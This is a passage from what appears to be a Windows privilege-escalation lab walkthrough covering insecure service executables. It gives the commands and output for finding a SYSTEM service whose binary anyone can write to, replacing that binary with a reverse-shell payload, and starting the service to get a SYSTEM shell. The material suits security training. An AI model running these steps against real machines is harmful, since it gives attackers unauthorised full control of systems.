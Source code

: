 

## insecure service executables

Query the "filepermsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME)

```bash
C:\Users\user>sc qc filepermsvc
sc qc filepermsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: filepermsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\File Permissions Service\filepermservice.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : File Permissions Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

Using accesschk.exe, note that the service binary (BINARY_PATH_NAME) file is writable by everyone:

```bash
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
C:\Program Files\File Permissions Service\filepermservice.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
  RW WIN-QBA94KB3IOF\Administrator
        FILE_ALL_ACCESS
  RW BUILTIN\Users
        FILE_ALL_ACCESS
```

Copy the reverse.exe executable you created and replace the filepermservice.exe with it:

```bash
C:\Users\user>copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
        1 file(s) copied.
```

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:


```
C:\Users\user>net start filepermsvc
```
